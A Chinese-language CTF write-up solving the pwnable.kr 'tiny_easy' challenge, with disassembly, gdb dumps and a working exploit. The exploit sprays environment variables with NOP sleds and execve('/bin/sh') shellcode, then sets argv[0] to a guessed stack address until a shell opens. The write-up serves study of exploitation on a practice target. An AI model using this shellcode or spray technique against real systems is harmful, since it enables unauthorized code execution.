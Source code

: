 ```yaml
---
title: pwnable.kr-tiny_easy
date: 2018-02-26 21:00:19
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言
考验漏洞利用能力的题目，长姿势了。参考了别人的[writeup](https://blog.yiz96.com/pwnable-kr-tiny_easy/)
# 分析
没有源代码，就丢ida逆向了
```nasm
LOAD:08048054 ; Attributes: noreturn
LOAD:08048054
LOAD:08048054                 public start
LOAD:08048054 start           proc near
LOAD:08048054                 pop     eax
LOAD:08048055                 pop     edx
LOAD:08048056                 mov     edx, [edx]
LOAD:08048058                 call    edx
LOAD:08048058 start           endp ; sp-analysis failed
LOAD:08048058
LOAD:08048058 LOAD            ends
LOAD:08048058
LOAD:08048058
LOAD:08048058                 end start
```
这是什么程序？？就这一点代码就什么都没了？当时也很蒙蔽，不过漏洞还是很容易看出来的。`call`调用其实是可以通过栈内数据控制的，但是栈上的数据是什么呢？丢进`gdb`看看
```nasm
   0x8048050:	add    BYTE PTR [eax],dl
   0x8048052:	add    BYTE PTR [eax],al
=> 0x8048054:	pop    eax
   0x8048055:	pop    edx
   0x8048056:	mov    edx,DWORD PTR [edx]
   0x8048058:	call   edx
   0x804805a:	add    BYTE PTR [eax],al
[------------------------------------stack-------------------------------------]
0000| 0xffcf23c0 --> 0x1 
0004| 0xffcf23c4 --> 0xffcf32bb ("/root/桌面/test/tiny_easy")
0008| 0xffcf23c8 --> 0x0 
0012| 0xffcf23cc --> 0xffcf32db ("XDG_VTNR=7")
0016| 0xffcf23d0 --> 0xffcf32e6 ("XDG_SESSION_ID=c2")
0020| 0xffcf23d4 --> 0xffcf32f8 ("XDG_GREETER_DATA_DIR=/var/lib/lightdm-data/gyh")
0024| 0xffcf23d8 --> 0xffcf3327 ("CLUTTER_IM_MODULE=xim")
0028| 0xffcf23dc --> 0xffcf333d ("GPG_AGENT_INFO=/home/gyh/.gnupg/S.gpg-agent:0:1")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048054 in ?? ()
gdb-peda$ 

```
原来栈上的数据就是传入参数和环境变量的地址，接下来执行到`call edx`看看程序会转向哪儿。
```nasm
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x0 
ECX: 0x0 
EDX: 0x6d6f682f ('/hom')
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xffcf23c8 --> 0x0 
EIP: 0x8048058 (call   edx)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048051:	adc    BYTE PTR [eax],al
   0x8048053:	add    BYTE PTR [eax+0x5a],bl
   0x8048056:	mov    edx,DWORD PTR [edx]
=> 0x8048058:	call   edx
   0x804805a:	add    BYTE PTR [eax],al
   0x804805c:	add    BYTE PTR [eax],al
   0x804805e:	add    BYTE PTR [eax],al
   0x8048060:	add    BYTE PTR [eax],al

```
可以看到`edx`的值就是第一个传入参数的前4个字节，这里是`/hom`。如果控制了这4个字节，就控制了程序的流程。
但是程序空间中没有调用任何函数代码，所以要getshell只有写入`shellcode`并跳转执行才可，程序能控制写入的地方只有环境变量和传入参数了，于是可以将shellcode写到这里面。但是题目平台是开启`ASLR`的，不能确定环境变量和传入参数的地址。这里可以控制程序跳转到一个大致的地址去，然后在环境变量里安排`[NOP][shelcode]`类似的shellcode，其中`nop`指令相对于`shellcode`要非常多，这样当程序执行跳转时一旦跳到`nop`覆盖的区域就会被引导至`shellcode`。
这个大致的地址可以选取调试时见到的值如`0xffcf333d`，`shellcode`可以用pwntools的shellcraft模块生成，于是exp如下
```bash
# 导入环境变量
for i in `seq 1 500`; do export A_$i=$(python -c 'print "\x90"*4096+"jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"');done;
```
```bash
exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy &
```
```bash
tiny_easy@ubuntu:~$ for i in `seq 1 500`; do export A_$i=$(python -c 'print "\x90"*4096+"jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"');done;
tiny_easy@ubuntu:~$ exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy &
[1] 30389
tiny_easy@ubuntu:~$ fg
-bash: fg: job has terminated
[1]+  Segmentation fault      exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy
tiny_easy@ubuntu:~$ exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy &
[1] 5710
tiny_easy@ubuntu:~$ exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy &
[2] 11068
[1]   Segmentation fault      exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy
tiny_easy@ubuntu:~$ fg
exec -a $(python -c "print '\x3d\x33\xcf\xff'") ./tiny_easy
$ ls
flag  tiny_easy
$ cat flag
What a tiny task :) good job!
$ 

```
另外，我所参考的writeup实际上还使用了`ulimit -s unlimited`关闭aslr的方法，但这个漏洞已经在题目平台修补了，可以参考`CVE-2016-3672`漏洞描述或者[这篇文章](http://www.freebuf.com/vuls/101169.html)
# 总结
该题漏洞的利用方法类似`heap spray`，只不过这是把`shellcode`布置在环境变量的节区上，该方法以前知道但是到了正真使用的时候却忘了，看来还是要多多练习呀。
